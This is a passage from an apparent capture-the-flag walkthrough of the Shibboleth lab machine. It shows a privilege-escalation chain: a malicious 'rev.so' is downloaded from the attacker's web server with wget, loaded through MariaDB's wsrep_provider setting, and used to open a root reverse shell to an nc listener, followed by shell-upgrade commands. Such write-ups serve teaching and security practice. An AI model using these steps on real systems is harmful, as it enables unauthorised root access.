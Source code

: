 

I'll move this to Shibboleth by starting a Python webserver
(`python3 -m http.server 80`) on my VM in the folder with `rev.so` and
then requesting it with `wget`:



    ipmi-svc@shibboleth:/dev/shm$ wget 10.10.14.6/rev.so
    --2022-03-31 13:40:35--  http://10.10.14.6/rev.so
    Connecting to 10.10.14.6:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 476 [application/octet-stream]
    Saving to: ‘rev.so’

    rev.so                                                 100%[========================================================>]     476  --.-KB/s    in 0.001s  

    2022-03-31 13:40:35 (509 KB/s) - ‘rev.so’ saved [476/476]



#### Execute

Now I just run the command in `mysql` to load the so which executes it:



    MariaDB [(none)]> SET GLOBAL wsrep_provider="/dev/shm/rev.so";
    ERROR 2013 (HY000): Lost connection to MySQL server during query



At my host, there's a connection:



    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.124 48960



It's raw, there's no prompt, but I can run commands:



    id
    uid=0(root) gid=0(root) groups=0(root)



Shell upgrade makes it nicer:



    script /dev/null -c bash
    Script started, file is /dev/null
    root@shibboleth:/var/lib/mysql# ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    root@shibboleth:/var/lib/mysql#
